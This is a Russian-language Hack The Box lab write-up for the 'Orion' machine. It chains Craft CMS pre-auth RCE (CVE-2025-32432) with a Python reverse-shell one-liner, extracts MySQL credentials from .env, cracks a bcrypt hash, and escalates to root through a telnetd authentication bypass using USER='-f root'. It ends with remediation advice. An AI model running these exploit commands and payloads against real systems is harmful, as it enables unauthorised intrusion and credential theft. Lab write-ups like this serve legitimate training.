
# Orion
> **Дата:** 17.10.2026  
> **Целевой IP:** `10.129.244.146`  
> **Атакующий IP:** `10.10.17.178`  
> **Сложность:** Medium  
> **Платформа:** Hack The Box

В ходе выполнения лабораторной работы по тестированию на проникновение (HTB Orion) была обнаружена и успешно эксплуатирована цепочка уязвимостей, приведшая к полному компрометированию системы. Основной вектор атаки — Pre-Auth Remote Code Execution (RCE) в CMS Craft (**CVE-2025-32432**), позволившая получить доступ к конфиденциальным данным. Через файл `.env` были извлечены учётные данные MySQL, получен хэш администратора и взломан пароль (`darkangel`). Повышение привилегий до **root** выполнено через обход аутентификации в **Telnetd** (**CVE-2026-24061**).

**Ключевые уязвимости:**
- **CVE-2025-32432** — Pre-Auth RCE в Craft CMS (CVSS 10.0)
- **CVE-2026-24061** — Telnetd Authentication Bypass
---
## Разведка и анализ поверхности атаки

Первоначальное сканирование выявило веб-сервер на порту 80. Анализ содержимого и перебор директорий показали наличие административной панели `/admin/login` и позволили идентифицировать CMS как **Craft CMS (версия 5.6.16)**, уязвимую к **CVE-2025-32432**.

nmap -sV -sC 10.129.244.146



_Сканирование портов и определение версий сервисов на целевой машине._

echo "10.129.244.146 orion.htb" | sudo tee -a /etc/hosts

_Добавление записи в локальный файл hosts для привязки доменного имени к IP-адресу цели._

http://10.129.244.146



dirsearch -u orion.htb

_Перебор директорий и файлов на веб-сервере для поиска скрытых путей, включая административную панель._



Сразу пригляделся login 

http://orion.htb/admin/login



Craft CMS 5.6.16 имеет критическую уязвимость 2025-32432 10.0/10

Уязвимость заключается в небезопасной десериализации параметра `handle` в эндпоинте `actions/assets/generate-transform`. Используя gadget chain (Yii deserialization), злоумышленник может инициировать выполнение произвольного кода (RCE) без аутентификации.

https://github.com/advisories/GHSA-f3gw-9ww9-jmc3

## Эксплуатация: Обход ограничений и получение доступа

### Первоначальная попытка: Metasploit Framework

Для эксплуатации был использован модуль `exploit/linux/http/craftcms_preauth_rce_cve_2025_32432`.

```bash
msfconsole
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
set RHOSTS orion.htb
set VHOST orion.htb
set LHOST 10.10.17.178
set LPORT 80
run
```



Несмотря на успешное прохождение этапа проверки (`Leaked session.save_path`), модуль не смог установить Meterpreter-сессию. Наблюдение за сетевым трафиком показало, что цель инициирует обратное подключение, но обработчик Metasploit завершается слишком быстро (известный баг модуля для данной цели), что приводило к обрыву сессий с ошибкой `Reason: Died`.

### Альтернативный подход: Python PoC

Для обхода нестабильности Metasploit был выбран публичный PoC (Python) от исследователя `c0gnit00`, который корректно обрабатывает логику сессий и CSRF-токены.

https://github.com/c0gnit00/CVE-2025-32432/blob/main/README.md

_Установка необходимых зависимостей для работы Python-эксплойта._

pip install requests urllib3

проверяем работает ли

python3 exploit.py -u http://orion.htb/ -c "id"



_Проверка работоспособности эксплойта путем выполнения команды `id` на целевой системе. Успешный вывод `uid=33(www-data)` подтвердил наличие RCE._

### Получение обратного шелла (Reverse Shell)

Стандартный `bash -i` обрывался из-за проблем с буферизацией TTY. Был использован Python-пейлоад для создания стабильного соединения.

nc -nlvp 4444



_Запуск слушателя на нашей машине (Kali) для приема входящего подключения от цели._

```python
python3 exploit.py -u http://orion.htb -c "python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.17.178',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(['/bin/bash','-i'])\""
```





_Запуск эксплойта с Python-пейлоадом, который создает обратное TCP-соединение на наш IP и порт 4444, перенаправляя ввод/вывод в `/bin/bash`._

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

_Стабилизация оболочки: создание полноценного TTY-терминала для комфортной работы (работают стрелки, история, Ctrl+C)._



## Пост-эксплуатация и извлечение данных

```bash
cd ../
ls -la
cat .env
```

_Переход в директорию веб-приложения Craft CMS, просмотр содержимого и чтение конфигурационного файла `.env` для поиска учетных данных._




**Найдено:** Пароль от базы данных MySQL: `SuperSecureCraft123Pass!`.

mysql -h 127.0.0.1 -u root -p'SuperSecureCraft123Pass!' -e 'SELECT username, password FROM orion.users;'



_Подключение к локальной базе данных MySQL и выполнение SQL-запроса для извлечения имен пользователей и хэшей паролей. Использование флага `-e` позволяет выполнить запрос без входа в интерактивную оболочку, что обходит зависание соединения в reverse shell._

$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS

**Получен хэш:** `$2y$13$e9zuohgFZzGtbQalcn9Mz.5...` (алгоритм bcrypt).

echo '$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS' > hash.txt

_Сохранение извлеченного хэша в файл для последующего взлома._

john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

 --format=bcrypt можно было и без этой команды но у меня вылезла ошибка и он не мог выбрать что из драйверов юзать

  

_Взлом хэша с помощью John the Ripper. Флаг `--format=bcrypt` явно указывает алгоритм хэширования, а `--wordlist` задает словарь для перебора._

**Найден пароль:** `darkangel`.

ssh adam@orion.htb

_Подключение к целевой машине по протоколу SSH с использованием найденных учетных данных пользователя `adam`._



```bash
cat user.txt
```

_Чтение первого флага (user flag) после успешного входа._

## Повышение привилегий (Privilege Escalation)

```
ss -tulnp
```



_Просмотр всех прослушиваемых сетевых портов и связанных с ними процессов для поиска потенциальных векторов атаки._

**Найдено:** Сервис, прослушивающий локальный порт **23 (Telnet)**. Сопоставление с базой уязвимостей подтвердило наличие **CVE-2026-24061** (Telnetd Authentication Bypass).

https://nvd.nist.gov/vuln/detail/cve-2026-24061

```python
tcp LISTEN 0 10 127.0.0.1:23 0.0.0.0:*
```

повышаем привилегии

```python
env USER='-f root' telnet -a 127.0.0.1 23
```

_Эксплуатация уязвимости обхода аутентификации в Telnetd. Переменная окружения `USER` устанавливается в значение `-f root`, а флаг `-a` заставляет telnet попытаться автоматически войти, используя это значение. Сервис `login` интерпретирует ввод как принудительный вход без пароля для пользователя root._





_финальный флаг (root flag) после получения привилегий суперпользователя._

## Рекомендации по устранению уязвимостей

- **Craft CMS (CVE-2025-32432):**  Обновить CMS до версий **3.9.15, 4.14.15, 5.6.17** или выше. Настроить WAF для блокировки POST-запросов к `actions/assets/generate-transform`, содержащих `__class`.
    
- **Компрометация учетных данных:** Вынести файл `.env` за пределы корневой директории веб-сервера. Запретить использование пользователя `root` для веб-приложения (создать отдельного пользователя с минимальными правами).
    
- **Telnetd (CVE-2026-24061):** Полностью отключить и удалить Telnet-сервер, используя только SSH. Если Telnet критически необходим, обновить пакет `inetutils` до версии **2.8+**.